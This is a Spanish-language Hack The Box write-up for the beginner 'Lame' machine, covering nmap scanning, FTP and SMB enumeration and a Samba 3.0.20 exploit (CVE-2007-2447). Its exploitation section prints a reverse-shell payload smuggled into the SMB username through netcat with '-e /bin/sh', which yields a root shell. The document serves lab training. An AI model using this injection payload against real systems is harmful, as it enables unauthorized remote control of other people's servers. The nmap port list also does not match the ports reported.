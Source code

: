 ```yaml
---
title: Lame
date: '2023-07-07'
lastmod: '2023-08-05'
tags: ['labs', 'HackTheBox']
draft: false
summary: 'Lame es una máquina de nivel principiante que solo requiere un exploit para obtener acceso root. Fue la primera máquina publicada en Hack The Box y a menudo es la primera máquina para nuevos usuarios.'
images: ['/static/images/htb/lame/Lame.png']
---
```


![Portada](/static/images/htb/Lame/Lame.png)

# [MIRA EL VIDEO TUTORIAL](https://www.youtube.com/watch?v=qDNVy6n9Jds)

<TOCInline toc={props.toc} exclude="MIRA EL VIDEO TUTORIAL" />

## Reconocimiento

### Ping

Primero, verificamos que estamos en la misma red que la máquina víctima enviando un paquete de datos a la IP 10.10.10.3 usando el comando ping.

```js
  ping -c 4 10.10.10.3
```

- `-c` : Número de paquetes de solicitud de eco ICMP (Internet Control Message Protocol) que se enviarán..

![Ping](/static/images/htb/Lame/ping.png)

### Nmap

Luego, realizamos el escaneo de puertos.

```js
  nmap -p- --open 10.10.10.3 -Pn
```

- `-p-` : Escanea todos los puertos.
- `--open` : Solo va a reportar los puertos que encuentre abiertos.
- `-Pn` : Realiza el escaneo incluso si el dispositivo no responde a los pings.

![Nmap1](/static/images/htb/Lame/nmap1.png)

Al obtener la lista de los puertos abiertos en la maquina victima,realizamos otro escaneo pero solo a los que
nmap reporto como abiertos incluyendo las siguientes flags:

- `-sC` : Activa el escaneo utilizando scripts de enumeración y detección de servicios predeterminados. Los scripts se ejecutan contra los puertos abiertos para obtener información adicional sobre los servicios en ejecución.
- `-sV` : Realiza una detección de versión de los servicios que se encuentran en los puertos abiertos. Nmap intenta determinar la versión y el tipo de servicio utilizando diversos métodos, como el envío de solicitudes específicas y la comparación de las respuestas recibidas.
- `-p` : Especifica los puertos que se escanearán. En este caso, se están escaneando los puertos 21 (FTP), 22 (SSH), 139 (NetBIOS/SMB), 445 (SMB) y 3632 (distccd).
- `-Pn` : Indica a Nmap que realice el escaneo incluso si el dispositivo no responde a los pings. Esto puede ser útil cuando el dispositivo tiene configuraciones de firewall que bloquean los paquetes ICMP de solicitud de eco.

```js
  nmap -sC -sV -p21,22,19,445,62 10.10.10.3 -Pn
```

![Nmap2](/static/images/htb/Lame/nmap2.png)

### Puertos abiertos

| Puertos abiertos | Servicio    | Version              |
| ---------------- | ----------- | -------------------- |
| **_21/tcp_**     | ftp         | vsftpd 2.3.4         |
| **_22/tcp_**     | SSH         | Open SSH 4.7p1       |
| **_139/tcp_**    | netbios-ssn | Samba smbd 3.x - 4.x |
| **_445/tcp_**    | netbios-ssn | Samba smbd 3.0.20    |
| **_3632/tcp_**   | distccd     | distccd v1           |

## Enumeracion

### Puerto 21 - FTP

El puerto 21 se utiliza comúnmente para el protocolo FTP (File Transfer Protocol), que es un protocolo estándar para la transferencia de archivos entre sistemas informáticos en una red. El protocolo FTP permite a los usuarios transferir archivos de un equipo a otro a través de una red. El puerto 21 se utiliza para establecer la conexión de control entre el cliente FTP y el servidor FTP. En esta conexión, el cliente envía comandos al servidor para solicitar operaciones como la autenticación del usuario, listar archivos en el servidor, crear directorios, descargar o subir archivos, entre otros. Es importante tener en cuenta que el protocolo FTP es un protocolo no seguro, ya que la información se transmite en texto plano, incluyendo las credenciales de inicio de sesión.

Al realizar una busqueda por google, encontramos que la `version 2.3.4` tiene una vulnerabilidad [CVE 2011-2523](https://www.exploit-db.com/exploits/49757).

![Exploit](/static/images/htb/Lame/exploit1.png)

Como se ve en el script, al aplicar el “:)” en el nombre del usuario y poner una contraseña cualquiera, se abriria el puerto 6200.
Pero, al tratar de realizar estos pasos y luego confirnar con nmap si el puerto 62000 esta abierto, nos reporta que esta filtrado. Por ende, no es vulnerable a esta accion.

En el reconocimiento con nmap, hallamos que el inicio de sesion anonimo estaba disponible, pero al ingresar vemos que el directorio esta vacio.

![Ftp](/static/images/htb/Lame/ftp.png)

### Puerto 22 - SSH

Como no tengo credenciales validas, continuo al siguiente puerto abierto.

### Puertos 139 - 445 - Samba (SMB)

SMB es un protocolo de red utilizado para compartir archivos, impresoras y otros recursos entre computadoras en una red. Se encuentra comúnmente en sistemas operativos basados en Unix y Linux, y se utiliza para establecer una conexión con un servidor SMB, explorar recursos compartidos, listar archivos y directorios, transferir archivos entre el cliente y el servidor, y ejecutar comandos remotos en el servidor SMB.

Para acceder a este servidor utilizamos `smbclient`. Al usar smbclient, puedes autenticarte en un servidor SMB proporcionando un nombre de usuario y una contraseña válidos. Una vez que hayas establecido una conexión con el servidor, puedes utilizar comandos similares a los de una interfaz de línea de comandos para interactuar con los recursos compartidos, como copiar archivos, eliminar archivos, crear directorios, obtener información sobre archivos y más.

```js
  smbclient -L 10.10.10.3
```

El comando "smbclient -L 10.10.10.3" se utiliza para enumerar los recursos compartidos disponibles en un servidor SMB específico.

Cuando ejecutas este comando, smbclient establece una conexión con el servidor SMB y solicita la lista de recursos compartidos disponibles en ese servidor.
Esto puede incluir carpetas compartidas, impresoras compartidas u otros recursos que estén configurados para compartir a través del protocolo SMB en el servidor.

![Ftp](/static/images/htb/Lame/smb1.png)

Con `smbmap` vemos los permisos en los dispositivos compartidos.

```js
  smbmap -H 10.10.10.3
```

![Ftp](/static/images/htb/Lame/smb2.png)

En la carpeta `tmp` tenemos permisos de lectura y escritura.

Vamos a buscar en searchsploit si esta version de smb tiene alguna vulnerabilidad conocida.

![Exploit](/static/images/htb/Lame/exploit.png)

Con el comando `searchsploit -x 16320.rn` podemos ver el codigo y entender que ocurre por detras o en google podemos verlo en [Exploit Database](https://www.exploit-db.com/) como [CVE 2007-2447](https://www.exploit-db.com/exploits/16320)

La parte mas importante del script esta aqui, al ingresar el nombre de usuario y pasarle el comando nohup ,seguido de un payload, le vamos a ingresar una reverse shell para que la maquina victima se conecte a la nuestra.

![Exploit](/static/images/htb/Lame/exploit2.png)

> En Linux, el comando nohup se utiliza para ejecutar un programa o script de manera persistente, incluso después de cerrar la terminal o sesión de inicio de sesión.

## Explotacion

En nuestra maquina local vamos a ejecutar el comando `nc -nlvp 4646`.

Esto crea un listener en el puerto 4646 de la máquina local, lo que significa que Netcat estará a la espera de conexiones entrantes en ese puerto. Esto es útil para establecer una conexión de red entre dos máquinas y permitir que una de ellas actúe como servidor o receptor de datos en el puerto especificado.

- `-n`: Indica a Netcat que no realice la resolución inversa de las direcciones IP o nombres de host.
- `-l`: Activa el modo de escucha, permitiendo que Netcat escuche conexiones entrantes en lugar de iniciar una conexión saliente.
- `-v`: Habilita el modo verboose (detallado) y muestra información adicional sobre las conexiones entrantes y salientes.
- `-p 4646`: Especifica el número de puerto en el que Netcat debe escuchar las conexiones entrantes. En este caso, el puerto elegido es el 4646.

Por otro lado, cuando nos conectemos por ftp a la maquina victima y estemos dentro, usaremos el comando logon para autenticarnos y aprovecharemos de la vulnerabilidad antes mencionada pasndole como usuario:

```js
'/=`nohup nc -nv 10.10.14.10 4646 -e /bin/sh`'
```

El comando `nc -nv 10.10.14.10 4646 -e /bin/sh` utiliza la herramienta Netcat (nc) para establecer una conexión de red con la dirección IP `10.10.14.10` en el puerto 4646 y ejecutar el shell `(/bin/sh)` en el sistema remoto:

- `-n`: Esta opción indica a Netcat que no realice la resolución inversa de las direcciones IP o nombres de host.
- `-v`: Esta opción habilita el modo verbose (detallado) y muestra información adicional sobre las conexiones entrantes y salientes.
- `10.10.14.10`: Es la dirección IP del sistema remoto al que se desea conectarse.
- `4646`: Es el número de puerto en el que se establecerá la conexión.
- `-e /bin/sh`: Especifica el comando que se ejecutará en el sistema remoto una vez que se establezca la conexión. En este caso, se ejecutará el shell ("/bin/sh"), lo que nos va a proporcionar una interfaz de línea de comandos en el sistema remoto.

![Explotacion](/static/images/htb/Lame/explotacion.png)

Una vez dentro, vemos que somos el usuario privilegiado root y vamos por las banderas user.txt y root.txt.
![Fin](/static/images/htb/Lame/fin.png)
